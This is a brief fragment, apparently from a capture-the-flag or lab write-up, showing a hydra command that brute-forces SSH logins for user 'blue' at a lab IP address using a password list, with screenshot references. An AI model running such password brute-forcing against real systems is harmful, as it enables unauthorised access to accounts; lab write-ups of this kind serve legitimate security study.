 to not manually try to log in, use hydra with the file to automate

hydra -t 16 -l blue -P passlist.txt -vV 10.10.14.32 ssh

![](hydra.png)
